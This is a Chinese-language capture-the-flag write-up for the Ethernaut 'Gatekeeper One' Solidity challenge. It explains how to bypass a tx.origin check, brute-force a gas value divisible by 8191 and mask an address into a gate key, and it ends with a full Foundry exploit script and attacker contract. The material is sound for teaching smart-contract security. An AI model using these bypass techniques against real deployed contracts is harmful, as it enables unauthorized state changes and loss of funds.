 # Level 13 - Gatekeeper One

## 題目
[Gatekeeper One](https://ethernaut.openzeppelin.com/level/0xb5858B8EDE0030e46C0Ac1aaAedea8Fb71EF423C)

### 通關條件
跨越守衛的守衛並且註冊成為參賽者吧

### 提示
- 回憶一下你在 [Telephone](https://hackmd.io/@D13/ethernaut4) 和 [Token](https://hackmd.io/@D13/ethernaut5) 關卡學到了什麼
- 可以去翻翻 Solidity 文件，更深入的了解一下 `gasleft()` 函式的資訊（參見 [Units and Global Variables](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) 和 [External Function Calls](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)）

### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
## 筆記
`gasleft()` 用於確認目前剩下的 gas 有多少，透過這個方式紀錄合約會消耗多少 gas，實際用法可以參考 [Solidity Gasleft](https://www.rareskills.io/post/solidity-gasleft)
>[!Tip]
>Gas Fee 就是區塊鏈交易或執行智能合約時要支付的費用；跑合約、交易的手續費。

---

題目要我們成為參賽者，也就是呼叫 24 行的 `enter(bytes8 _gateKey)`，呼叫之前還會先經過 3 個 `modifier`，通過的方法分別是：

### 通過 `gateOne()`
```solidity=7
    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }
```
這條件在 [Telephone](https://hackmd.io/@D13/ethernaut4) 就有實現過，只要寫另一個合約去呼叫關卡合約就可以通過
### 通過 `gateTwo()`
```solidity=12
    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }
```
`gateTwo()` 的條件是必須在 run 到這的時候剩餘的 gas 費用必須要可以被 8191 整除，我們可以透過 for 迴圈不斷測試找到符合的 gas（跑迴圈本身很消耗 gas，建議在本地端跑完後再改用常數呼叫上鏈提交關卡）
### 通過 `gateThree(bytes8 _gateKey)`
```solidity=17
    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require( `uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)`), "GatekeeperOne: invalid gateThree part three");
        _;
    }
```
`gateThree(bytes8 _gateKey)` 又分成三個條件，都是要針對 `_gateKey` 做型態轉換後的值進行比較，跟 [Privacy](https://hackmd.io/@D13/ethernaut12) 那題一樣，只是更複雜一點，一條一條查看：
#### `uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))`
![image](/writeup/img/13_GateThree1.png)
在做 `==` 判斷時，比較小的型態會被轉換成大的，所以右邊的 `_gateKey` 雖然最後是 `uint16` 但因為要比較的關係所以會變成 `uint32`，但他已經失去 2 bytes 的資料，所以它的前方會補 0（詳細變化可以參考上圖右邊綠色方塊）
要達成第一個條件，`_gateKey` 的第 5, 6 byte 一開始就必須為 0，這樣丟失再補回來後也會跟左邊黃框的部分一樣
#### `uint32(uint64(_gateKey)) != uint64(_gateKey)`
![image](/writeup/img/13_GateThree2.png)
第二個條件是要不相等，那透過上圖可以看出來只要 `_gateKey` 的初始值在 1-4 byte 有值就可以達到這個效果，因為左邊黃框部分 `_gateKey` 會被丟棄前 4 個 bytes 後補 0，所以會不一樣。
#### `uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)`
![image](/writeup/img/13_GateThree3.png)
第三個條件其實跟第一條很像，就是倒數 3, 4 byte 要是 0 就可以符合，但這邊是用 `tx.origin`，也就是我們的地址。

綜合上面三個條件也就是說 `_gateKey` 要等於 `tx.origin` 且倒數 3, 4 byte 要是 0。這邊只要透過 AND 運算，就像濾波器一樣把不要的部份過濾掉就可以得到符合三個條件的值了：
```solidity=
bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF
```
攻擊合約如下（不要忘記確認 gas 的 for 迴圈不要上鏈測試）：
```solidity=
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/13_GatekeeperOne.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();

        GatekeeperOneAttacker attacker = new GatekeeperOneAttacker(your_challenge_address);    
        attacker.attack();

        vm.stopBroadcast();
    }
}

contract GatekeeperOneAttacker {
    GatekeeperOne public level13;

    constructor(address _target) {
        level13 = GatekeeperOne(_target);
    }
    
    function attack() public {
        bytes8 _gateKey =  bytes8(uint64(uint160(tx.origin))) & 0xffffffff0000ffff;
        /* local test
        for (uint256 i = 0; i < 8191; i++) { 
            (bool result,) = address(level13).call{gas:i + 8191 * 3}(abi.encodeWithSignature("enter(bytes8)", _gateKey));
            if (result) {
                console.log(i);
                break;
            }
        }
        */
        address(level13).call{gas:256 + 8191 * 3}(abi.encodeWithSignature("enter(bytes8)", _gateKey));
    }
}
```